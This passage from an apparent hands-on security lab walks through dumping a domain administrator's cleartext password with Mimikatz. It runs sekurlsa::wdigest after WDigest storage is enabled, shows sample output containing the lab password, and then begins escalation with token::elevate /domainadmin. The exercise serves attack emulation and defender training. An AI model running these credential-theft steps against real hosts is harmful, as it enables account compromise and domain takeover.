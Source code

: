     You have just adjusted the WDigest setting to store cleartext passwords in memory. Many orgs do not prevent and/or alert on this activity, so it's a go-to for TAs such as ransomware affiliates. 
    
    Next, you are going to emulate a domain account running a process on the host. **This emulates a real-world environment in which a help desk employee connects to the machine, a task is running via a domain account, a service is running via a domain account, etc.** We will use `runas` to run `notepad.exe`, though in the real world this account may just connect remotely to run whatever process.

1. In your current PS window, execute Notepad as the `WHEEL\Administrator` user:
    
    ```
    runas /user:wheel\Administrator notepad.exe
    ```
    
    - You will be prompted to `Enter the password for wheel\Administrator:`, which is:
        
        ```
        12qwaszx!@QWASZX
        ```

    _Minimize the Notepad process window_ -- **DO NOT close this window**

1. Back in Mimikatz, run the following command:
    
    ```
    sekurlsa::wdigest
    ```

    Either scroll up in the Mimikatz window buffer or once again load the `m.log` file via `notepad c:\Users\Public\Desktop\LAB_FILES\assets\mimikatz_trunk\x64\m.txt`.

    You will now see a cleartext password for the `WHEEL\Administrator` account:
    
    ```
    Authentication Id : 0 ; 6908489 (00000000:00696a49)
    Session           : Interactive from 0
    User Name         : Administrator
    Domain            : WHEEL
    Logon Server      : TARVALON
    Logon Time        : 8/6/2023 6:42:52 PM
    SID               : S-1-5-21-3772637088-1800343157-2363924200-500
        wdigest :	
         * Username : Administrator
         * Domain   : WHEEL
         * Password : 12qwaszx!@QWASZX
    ```

    Sure, we used `runas` and entered this password. We were simply emulating the fact that a domain account might be running a process on the host, which is a _very_ common situation.

1. Elevate your access to the domain admin account in the Mimikatz prompt via:
    
    ```
    token::elevate /domainadmin
    ```
    
    Expected output:
    